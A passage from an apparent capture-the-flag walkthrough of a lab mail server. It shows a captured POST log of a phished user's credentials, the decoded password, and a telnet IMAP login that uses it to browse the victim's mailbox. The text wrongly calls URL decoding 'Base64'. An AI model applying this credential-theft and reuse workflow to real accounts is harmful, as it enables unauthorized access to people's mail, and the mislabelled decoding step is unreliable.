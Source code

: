 Now, if we send the mass emails again, we get the POST data:

```
$ [14/Jul/2020:09:16:59 --0500] Xw2@W4fUeQyQFoK7Y29xGAAAAAA 10.10.10.197 45340 10.10.xx.xx 80
--fe3b6867-B--
POST /test.php%3E%3C/script%3E HTTP/1.1
Host: 10.10.14.36
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

--fe3b6867-C--
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
--fe3b6867-F--
```

It looks like the user whose email is paulbyrd@sneakymailer.htb is sending registration information to us!

Base64 decoding this gives us the following login info:

**paulbyrd@sneakymailer.htb:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht**

After trying this on multiple services, we find that we can log into imap with these credentials (slightly modified):

```
$ telnet 10.10.10.197 143    
Trying 10.10.10.197...                                    
Connected to 10.10.10.197.                                                                                           
Escape character is '^]'.                                 
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for d
istribution information.                                  
A1 LOGIN paulbyrd "^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht"
* OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
A1 OK LOGIN Ok.
```

We can now look through his email to see if there's anything worthwhile, like login information:

```
A1 list "INBOX" "*"                        
* LIST (\HasNoChildren) "." "INBOX.Trash"                                                                            
* LIST (\HasNoChildren) "." "INBOX.Sent"                                                                             
* LIST (\HasNoChildren) "." "INBOX.Deleted Items"                                                                    
* LIST (\HasNoChildren) "." "INBOX.Sent Items"                                                                       
A1 OK LIST completed
```
